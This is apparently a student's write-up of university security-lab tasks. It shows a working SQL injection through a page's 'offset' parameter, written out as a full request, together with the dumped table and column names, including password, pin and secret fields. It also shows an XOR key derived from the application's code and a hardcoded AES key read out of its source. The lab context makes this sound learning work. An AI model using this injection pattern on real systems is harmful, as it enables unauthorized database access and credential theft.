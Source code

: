 ## Task 8: Print a list of all table names and their columns in `kbe` database
---
solution:
This one is a bit tricky, but we can again reuse offset vulnerability with SQL:
```sql
0 UNION SELECT CONCAT(cs.TABLE_NAME, ' - ', cs.COLUMN_NAME), 1 FROM INFORMATION_SCHEMA.COLUMNS cs LEFT JOIN INFORMATION_SCHEMA.TABLES tb ON cs.TABLE_NAME = tb.TABLE_NAME WHERE tb.TABLE_TYPE='BASE TABLE';
```
and then the request is:
```
https://kbe.felk.cvut.cz/index.php?offset=0 UNION SELECT CONCAT(cs.TABLE_NAME, ' - ', cs.COLUMN_NAME), 1 FROM INFORMATION_SCHEMA.COLUMNS cs LEFT JOIN INFORMATION_SCHEMA.TABLES tb ON cs.TABLE_NAME = tb.TABLE_NAME WHERE tb.TABLE_TYPE='BASE TABLE';

```
So the result:
```
codes - username
codes - aes_encrypt_code

messages - username
messages - base64_message_xor_key
messages - date_time

users - username
users - password
users - pin
users - secret
users - salt
```

## Task 9: Derive xor key used for encoding your messages
---
solution:
The key here is that we can see how the application builds the xor key.
```php
function xor_key($username, $pattern = "kbe_REPLACE_xor_key_2021", $len = 4) {
    return str_replace("REPLACE", substr(sha1($username . $pattern), 0, $len), $pattern); 
}
```
So, I just take my own data and feed it to python
```python
hashlib.sha1("forstlukkbe_REPLACE_xor_key_2021".encode()).hexdigest()[:4]
```
which gives me `021a`.


## [BONUS :hurtrealbad:] Task 10: Find out key used for encoding secure codes
---
As previously stated, we have access to the code, and the key is there as well
```php
define("AES_ENCRYPT_CODE_KEY", "iHw35UKAPaSYKf8SI44CwYPa");

```
